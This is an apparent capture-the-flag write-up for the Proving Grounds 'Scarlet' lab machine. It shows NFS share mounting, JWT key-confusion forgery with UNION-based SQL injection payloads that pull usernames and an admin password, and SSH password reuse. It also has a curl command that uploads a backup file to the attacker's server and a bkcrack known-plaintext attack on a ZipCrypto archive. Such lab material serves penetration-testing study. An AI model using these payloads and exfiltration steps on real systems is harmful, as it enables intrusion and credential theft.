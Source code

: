 #### Enumeration

results of an nmap scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37977/tcp open  unknown
40423/tcp open  unknown
41035/tcp open  unknown
42825/tcp open  unknown
57877/tcp open  unknown
111/udp   open  rpcbind
33779/udp open  unknown
50918/udp open  unknown
57140/udp open  unknown
57739/udp open  unknown
58802/udp open  unknown
```

Trying to mount the share folder through NFS service.

```shell
showmount -e 192.168.183.222
mkdir /tmp/test_folder
sudo mount -t nfs 192.168.183.222:/mnt/share /tmp/test_folder -o nolock
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_12h21m37s_001_.png)

Finding a public key but don't know where to use it. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_12h23m17s_002_.png)

Next, we turn to enumerate website. Adding DNS setting.

```
192.168.183.222 scarlet.local
```

Clicking `Author's Portal` to link to the login page. After trying to register many accounts, I find an existing account `brain` the web admin shows on the contacts page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_13h14m12s_003_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_13h18m41s_004_.png)

Logging in to the website using the previously registered account, but don't find vulnerabilities on the page we can submit publication information. After that, continue to check the session. I notice the page is using JWT to authenticate users. We refer to this [article](https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb) try to use JWT SQL injection to gather more information.

We can use exist token to regenerate paylod with SQLi query.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_13h42m53s_005_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_14h13m09s_006_.png)


```shell
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
python3 jwt_tool.py <token> -I -pc <Payload claim to tamper with> -pv "<sql command>" -S hs256 -k /tmp/test_folder/essentials/public.key
# pc = payload claim to tamper with
# public.pem = public key from NFS
```

```shell
# UNION SELECT 1, 2, 3 .... and so on
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT 1, 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

Opening the dev tool and chagne the session value to the new token. After refreshing the page we can see the welcome message has changed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_14h22m55s_007_.png)

We also can decode the payload to check what exactly we send to server.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_14h29m31s_008_.png)

We have to confirm which database software we are dealing with.

```sql
-- MS SQL
SELECT @@VERSION();
-- MySQL/Postgres
SELECT VERSION();
-- SQLite
SELECT sqlite_version();
```

It's SQLite and then we can use SQLite statements.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT sqlite_version(), 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_15h16m57s_009_.png)


Listing all tables.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT group_concat(name) FROM sqlite_schema WHERE type = 'table') , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_15h52m21s_010_.png)

Listing table `users` schema.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT sql FROM sqlite_schema WHERE name = 'users') , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_15h55m20s_011_.png)

Listing all usernames in table `users`.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT group_concat(username) FROM users) , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_16h30m01s_012_.png)

Because brian is web admin so we try to get his password.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT password FROM users WHERE username = 'brian') , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_16h50m17s_013_.png)

Reusing the passowrd to log in to SSH.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_16h53m57s_014_.png)

#### Privilege Escalation

Finding a backup file in opt folder. We upload it back to our machine.

```shell
# start a HTTP server
sudo python2 ~/Documents/HTTPutServer.py 192.168.49.183 80
```

```shell
# target
curl --upload-file /opt/backup.zip http://192.168.49.183
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_17h08m53s_015_.png)

The zip file has password protected. But we can see all the files that look like the website's source codes.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_17h12m56s_016_.png)

Next, we detect zip file encryption algorithm.

```shell
7z l -slt backup.zip
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_17h20m29s_017_.png)

`Exploiting ZipCrypto`

Tool

```shell
wget https://github.com/kimci86/bkcrack/releases/download/v1.5.0/bkcrack-1.5.0-Linux.tar.gz
```

According to the exploit steps we offer a `Plaintext` file that we can download from website.

```shell
wget http://scarlet.local/assets/images/mbr-9.jpg
```

Zip the file

```shell
zip -r plain.zip mbr-9.jpg
```

```shell
# put the all files in the same folder
./bkcrack -C backup.zip  -c 'web/assets/images/mbr-9.jpg' -P plain.zip -p mbr-9.jpg
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h41m48s_018_.png)

```shell
./bkcrack -C backup.zip  -c plain.zip  -k c45cce0e 772c014e 98bbd8be -U test.zip qwert
# -U, --change-password <archive> <password>
#        Create a copy of the encrypted zip archive with the password set to the
#        given new password (requires -C)
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h46m34s_019_.png)

We get a private key.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h50m30s_020_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h52m48s_021_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h53m14s_022_.png)
